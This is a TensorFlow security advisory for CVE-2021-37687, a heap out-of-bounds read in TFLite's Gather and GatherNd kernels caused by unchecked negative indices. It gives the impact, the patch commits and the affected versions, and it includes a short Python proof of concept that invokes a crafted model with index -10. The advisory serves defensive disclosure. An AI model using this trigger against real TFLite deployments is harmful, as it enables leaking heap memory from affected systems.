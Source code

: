 ## TFSA-2021-161: Heap OOB in TFLite's `Gather*` implementations

### CVE Number
CVE-2021-37687

### Impact
TFLite's [`GatherNd`
implementation](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/gather_nd.cc#L124)
does not support negative indices but there are no checks for this situation.

Hence, an attacker can read arbitrary data from the heap by carefully crafting a
model with negative values in `indices`.

Similar issue exists in [`Gather`
implementation](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/gather.cc).

```python
import tensorflow as tf
import numpy as np
tf.compat.v1.disable_v2_behavior()

params = tf.compat.v1.placeholder(name="params", dtype=tf.int64, shape=(1,))
indices = tf.compat.v1.placeholder(name="indices", dtype=tf.int64, shape=())

out = tf.gather(params, indices, name='out')

with tf.compat.v1.Session() as sess:
   converter = tf.compat.v1.lite.TFLiteConverter.from_session(sess, [params, indices], [out])
   tflite_model = converter.convert()

interpreter = tf.lite.Interpreter(model_content=tflite_model)
interpreter.allocate_tensors()

input_details = interpreter.get_input_details()
output_details = interpreter.get_output_details()

params_data = np.reshape(np.array([1], dtype=np.int64), newshape=(1,))
indices_data = np.reshape(np.array(-10, dtype=np.int64), newshape=())
interpreter.set_tensor(input_details[0]['index'], params_data)
interpreter.set_tensor(input_details[1]['index'], indices_data)

interpreter.invoke()
```

### Patches
We have patched the issue in GitHub commits
[bb6a0383ed553c286f87ca88c207f6774d5c4a8f](https://github.com/tensorflow/tensorflow/commit/bb6a0383ed553c286f87ca88c207f6774d5c4a8f)
and
[eb921122119a6b6e470ee98b89e65d721663179d](https://github.com/tensorflow/tensorflow/commit/eb921122119a6b6e470ee98b89e65d721663179d).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
